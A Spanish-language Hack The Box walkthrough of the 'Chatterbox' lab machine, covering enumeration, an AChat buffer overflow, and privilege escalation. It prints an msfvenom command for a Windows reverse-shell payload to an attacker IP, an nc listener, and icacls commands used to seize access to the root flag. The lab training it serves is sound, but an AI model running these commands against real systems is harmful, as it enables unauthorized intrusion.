 ```yaml
---
layout: post
title: HTB_Chatterbox.md
date: 2023/07/10
---
```


# Chatterbox {-}

## Introduccion {-}

La maquina del dia se llama Chatterbox.

El replay del live se puede ver aqui

[![S4vitaar Chatterbox maquina](https://img.youtube.com/vi/WeaLhmbatT0/0.jpg)](https://www.youtube.com/watch?v=WeaLhmbatT0)

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 4:50:15.

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.74
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.74
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.74 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p9255,9256 10.10.10.74 -oN targeted
```


| Puerto | Servicio          | Que se nos occure? | Que falta? |
| ------ | ----------------- | ------------------ | ---------- |
| 9255   | http AChat        | Web, Fuzzing       |            |
| 9256   | achat chat system |                    |            |


## Vulnerability Assessment {-}


### Achat Chat system {-}

```bash
searchsploit achat
```

Todavia no savemos lo que es achat pero vemos exploit de typo Remote Buffer Overflow

```bash
searchsploit -m 36025
mv 36025.py achat_exploit.py
cat achat_exploit.py
```

Mirando el codigo, vemos que es un bufferflow normal que lanza una calculadora. Lo modificamos para
lanzar una reverse shell.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con Remote BOF {-}


1. Nos creamos un nuevo shellcode basada a la informacion del exploit

    ```bash
    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\
    x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\
    xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\
    xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\
    xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    ```

1. Copiamos el shell code generado y lo ponemos al sitio del buff shellcode del exploit
1. Cambiamos la ip de la maquina victima
1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el exploit modificado con python 2

    ```bash
    python achat_exploit.py
    ```

```bash
whoami
#Output
chatterbox\alfred
```

Podemos leer la flag## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
cd Desktop
type root.txt
```

No podemos leer la flag de root pero es curioso que nos podamos meter en su directorio user.

```bash
icacls root.txt
cd ..
icacls Desktop
```

Vemos que el usuario alfred tiene privilegios Full sobre el directorio Desktop del usuario root.

```bash
cd Desktop
icacls root.txt /grant alfred:F
type root.txt
```

Podemos leer la flag, lol :)
